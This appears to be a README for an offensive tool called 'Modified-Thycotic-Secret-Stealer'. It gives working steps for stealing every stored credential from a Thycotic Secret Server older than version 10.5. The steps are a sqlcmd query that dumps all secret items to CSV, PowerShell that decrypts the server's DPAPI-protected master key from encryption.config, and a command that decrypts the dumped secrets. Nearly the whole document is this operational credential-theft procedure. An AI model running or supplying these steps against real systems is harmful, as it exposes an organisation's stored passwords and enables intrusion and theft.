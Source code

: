 # Modified-Thycotic-Secret-Stealer for <10.5 with DPAPI Integration

#SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>
